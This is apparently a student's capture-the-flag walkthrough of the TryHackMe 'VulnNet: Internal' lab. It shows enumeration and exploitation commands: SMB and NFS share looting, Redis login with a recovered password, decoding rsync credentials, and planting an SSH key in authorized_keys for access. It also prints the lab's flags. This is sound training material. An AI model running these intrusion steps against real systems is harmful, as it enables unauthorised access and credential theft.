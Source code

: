 ```yaml
---
layout: page
title: VulnNet: Internal
permalink: /CSCI24/VulnNetInternal/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>


Task 1
---

Lets start with a nmap scan shall we?

```nmap -sC -sV 10.10.106.247```

<img src="/images/CSCI24/VulnNetInternal/Task 1 Q1.png">

we have quite a few posibilities so lets see if metaspolit sees anything

Since we see some SMB shares lets try for that

lets add the IP to our host file with

```sudo nano /etc/hosts```

I named it VulnInternal

```smbmap -H VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.5.png">

We see a share named "shares" lets look into it shall we?

```smbmap -H VulnInternal -u root -R```

Now we neet to "get" the file suspiciously named "services.txt"

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.6.png">

```smbget -R smb://VulnInternal/shares/temp/services.txt```

Lets cat that file

```cat services.txt```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

What is the services flag? (services.txt)

***THM{0a09d51e488f5fa105d8d866a497440a}***
---

Port 2049 looks different

a quick search [Here](https://blog.christophetd.fr/write-up-vulnix) shows that we can look into NFS shares

```showmount -e VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

We can copy this into a new directory to look into the results

```mkdir VulnInternal```

```sudo mount -t nfs VulnInternal:/opt/conf VulnInternal```
```cd VulnInternal```
lets see if we can find anything with grep

```grep -R pass```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.png">

After some googling and finding what redis was I found that we need a tool to try and work with it

```sudo apt install redis-tools```

Lets try to get in with that password we found

```redis-cli -h VulnInternal -a B65Hx562F@ggAZ@F```

```info```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.5.png">

Now at the bottom we see a key space that we can look into further

```keys *```

Key #3 is "internal flag"

```get "internal flag"```


What is the internal flag? ("internal flag")

***THM{ff8e518addbbddb74531a724236a8221}***


```type authlist```

I learned from a write up about lrange

```lrange authlist 1 99999```

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

is written 3 times and is most likely base64

<img src="/images/CSCI24/OWASPTop10/Task 1 Q3.png">

looks like we are going to use rysnc as well (password: Hcg3HP67@TW@Bc72v)

```rsync rsync://rsync-connect@VulnInternal/```

There is a folder named files lets look into it

```rsync rsync://rsync-connect@VulnInternal/files```

```rsync rsync://rsync-connect@VulnInternal/files/sys-internal/```

lets look into the txt file

it didn't want to save itn oa nromal folder so I moved it to the tmp

```cd /tmp```

```sudo rsync rsync://rsync-connect@VulnInternal/files/sys-internal/user.txt user.txt -v```

```sudo cat user.txt```

What is the user flag? (user.txt)

***THM{da7c20696831f253e0afaca8b83c07ab}***


What is the root flag? (root.txt)

A walkthrough taught me that rysnc can pull and push files such as a new SSH key!

ssh-keygen (to create a key in tmp named VulnKey)

```rsync id_rsa.pub rsync://rsync-connect@VulnInternal/files/sys-internal/.ssh/authorized_keys```

Lets make sure our key was put in the folder

```rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/```

```ssh sys-internal@VulnInternal -i id_rsa```

after rooting aroudn there is a fodler named TeamCity

the reame shows us how to run a file


***
